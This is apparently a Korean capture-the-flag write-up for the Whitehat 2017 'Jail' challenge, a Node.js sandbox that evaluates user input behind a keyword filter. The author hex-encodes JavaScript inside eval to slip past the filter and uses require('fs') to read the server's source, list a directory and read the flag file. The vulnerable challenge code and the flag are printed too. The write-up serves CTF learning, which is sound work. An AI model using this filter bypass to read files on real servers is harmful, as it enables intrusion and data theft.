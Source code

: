 # [Misc] Whitehat 2017 - Jail

## Description

>  nc challenges.whitehatcontest.kr 5959

## Analysis

nc를 통해 접속하면 다음과 같은 화면이 나온다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
>
```

뭔지 모르겠으니 hint를 입력해보았다.

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```

엄청많은 필터링들이 걸려있다.

근데 딱보니 무언가를 필터링 안했다.

hex을 사용하여 eval이 가능해보인다.

## Exploit

쿼리를 with(require('fs')){readFileSync(__filename)}로 보내야 하는데 필터링에 걸리게 되어있다.

이를 hex으로 변환시킨 후 eval을 통해 실행시켜보자.

Query : eval("with(require('fs')){readFileSync(__filename)}")

Encoded Query : eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x5f\x5f\x66\x69\x6c\x65\x6e\x61\x6d\x65\x29\x7d")

```js
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x5f\x5f\x66\x69\x6c\x65\x6e\x61\x6d\x65\x29\x7d")

your input /* eslint-disable no-unused-vars,no-console, no-undefined, no-underscore-dangle */
const readline = require('readline');
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
});

const checker = (input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input));

const result = (answer) =>{
  const Array = undefined;
  const Boolean = undefined;
  const Date = undefined;
  const global = undefined;
  const Error = undefined;
  const EvalError = undefined;
  const Function = undefined;
  const Number = undefined;
  const Object = undefined;
  const RangeError = undefined;
  const ReferenceError = undefined;
  const String = undefined;
  const SyntaxError = undefined;
  const TypeError = undefined;
  const URIError = undefined;
  const JSON = undefined;
  const Math = undefined;
  const decodeURIComponent = undefined;
  const encodeURI = undefined;
  const encodeURIComponent = undefined;
  const isFinite = undefined;
  const isNaN = undefined;
  const parseFloat = undefined;
  const parseInt = undefined;
  const ArrayBuffer = undefined;
  const DTRACE_HTTP_CLIENT_REQUEST = undefined;
  const DTRACE_HTTP_CLIENT_RESPONSE = undefined;
  const DTRACE_HTTP_SERVER_REQUEST = undefined;
  const DTRACE_HTTP_SERVER_RESPONSE = undefined;
  const DTRACE_NET_SERVER_CONNECTION = undefined;
  const DTRACE_NET_STREAM_END = undefined;
  const DataView = undefined;
  const Float32Array = undefined;
  const Float64Array = undefined;
  const Int16Array = undefined;
  const Int32Array = undefined;
  const Int8Array = undefined;
  const Map = undefined;
  const Promise = undefined;
  const Proxy = undefined;
  const Set = undefined;
  const Symbol = undefined;
  const Uint16Array = undefined;
  const Uint32Array = undefined;
  const Uint8Array = undefined;
  const Uint8ClampedArray = undefined;
  const WeakMap = undefined;
  const WeakSet = undefined;
  const assert = undefined;
  const clearImmediate = undefined;
  const clearInterval = undefined;
  const clearTimeout = undefined;
  const escape = undefined;
  const events = undefined;
  const setImmediate = undefined;
  const setInterval = undefined;
  const setTimeout = undefined;
  const stream = undefined;
  const unescape = undefined;
  const __defineGetter__ = undefined;
  const __defineSetter__ = undefined;
  const __lookupGetter__ = undefined;
  const __lookupSetter__ = undefined;
  const constructor = undefined;
  const hasOwnProperty = undefined;
  const isPrototypeOf = undefined;
  const propertyIsEnumerable = undefined;
  const toLocaleString = undefined;
  const toString = undefined;
  const valueOf = undefined;
  const rl = undefined;

  try{
    const clean = decodeURI(answer);
    if(checker(clean)) {
      console.log('nop');
      process.exit();
    }
    console.log('your input ' + eval(clean));
  }catch(e) {
    console.log('hm..');
    process.exit();
  }
  return;
};

console.log('Hello Java-Script Jail');
console.log('type: hint, quit');
rl.prompt();
rl.on('line', (line) => {
  switch (line.trim()) {
    case 'hint':
      console.log(checker.toString());
      break;
    case '555ca7cfed49489017c105cb13c557a068cf970c':
      console.log(result.toString());
      break;
    case 'quit':
      process.exit(0);
      break;
    default:
      result(line);
      break;
  }
  rl.prompt();
}).on('close', () => {
  console.log('Bye!');
  process.exit(0);
});

>
```

Jail문제의 소스를 얻었으나, 해당 파일에는 플래그가 안보이므로, Directory Traversal을 하였다.

`("with(require('fs')){readdirSync('/home/jail/')}")`을 삽입하였을 때, 디렉토리에 flag라는게 존재하는 것을 확인할 수 있었다.

이제 다음의 쿼리를 이용하여 Flag를 얻어보자.

Query : eval("with(require('fs')){readFileSync('/home/jail/flag')}")

Encoded Query : eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")

```
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

Flag를 얻을 수 있었다.



**{easy~esay!easy?_Jav4-scr1pt~yay}**